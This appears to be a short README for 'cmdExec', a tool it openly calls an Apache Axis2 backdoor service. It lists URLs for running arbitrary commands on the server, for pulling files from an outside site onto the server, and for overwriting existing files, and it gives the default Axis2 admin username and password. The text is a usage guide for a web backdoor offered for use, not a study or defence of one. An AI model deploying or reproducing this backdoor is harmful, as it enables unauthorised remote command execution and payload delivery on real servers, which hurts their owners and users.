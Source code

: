 cmdExec
===========

Apache Axis2 Backdoor service


  Usage:\n
   Execute program: http://PATHTOAXIS2/cmdExec/run?cmd=COMMAND\n
   Download file: http://PATHTOAXIS2/cmdExec/get?site=http(s)://site/file.ext\n
   Files will be downloaded as download.file and must be renamed.\n
   Existing files will be overwritten. Enjoy :)\n
   Default axis2 username=admin password=axis2